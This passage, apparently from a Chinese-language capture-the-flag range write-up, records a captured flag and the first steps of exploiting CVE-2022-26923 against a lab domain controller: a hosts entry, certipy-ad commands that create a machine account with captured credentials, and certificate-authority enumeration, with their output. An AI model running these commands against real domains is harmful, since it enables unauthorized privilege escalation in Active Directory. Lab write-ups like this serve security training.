 ## flag - 03

```plaintext
  __ _            __ ____
 / _| |__ _ __ _ /  \__ /
|  _| / _` / _` | () |_ \
|_| |_\__,_\__, |\__/___/
           |___/

flag03: flag{a6f63efe-4406-4c81-937a-c6498fad827c}
```

## 172.22.15.13 CVE-2022-26923

添加 hosts 记录

```bash
┌──(root ㉿ kali)-[~]
└─# echo "172.22.15.13 XR-DC01.xiaorang.lab" >> /etc/hosts
```

然后创建用户

```bash
┌──(randark ㉿ kali)-[~]
└─$ proxychains -q certipy-ad account create -user 'randark2$' -pass 'admin123###2' -dns XR-DC01.xiaorang.lab -dc-ip 172.22.15.13 -u lixiuying -p 'winniethepooh'
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Creating new account:
    sAMAccountName                      : randark2$
    unicodePwd                          : admin123###2
    userAccountControl                  : 4096
    servicePrincipalName                : HOST/randark2
                                          RestrictedKrbHost/randark2
    dnsHostName                         : XR-DC01.xiaorang.lab
[*] Successfully created account 'randark2$' with password 'admin123###2'
```

查询域控 CA 名

```bash
┌──(randark ㉿ kali)-[~]
└─$ proxychains -q certipy-ad find -u lixiuying@xiaorang.lab -p winniethepooh -dc-ip 172.22.15.13
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Trying to get CA configuration for 'xiaorang-XR-CA-CA' via CSRA
[!] Got error while trying to get CA configuration for 'xiaorang-XR-CA-CA' via CSRA: Could not connect: [Errno 111] Connection refused
[*] Trying to get CA configuration for 'xiaorang-XR-CA-CA' via RRP
[!] Got error while trying to get CA configuration for 'xiaorang-XR-CA-CA' via RRP: [Errno Connection error (224.0.0.1:445)] [Errno 111] Connection refused
[!] Failed to get CA configuration for 'xiaorang-XR-CA-CA'
[*] Saved BloodHound data to '20240726173651_Certipy.zip'. Drag and drop the file into the BloodHound GUI from @ly4k
[*] Saved text output to '20240726173651_Certipy.txt'
[*] Saved JSON output to '20240726173651_Certipy.json'
```
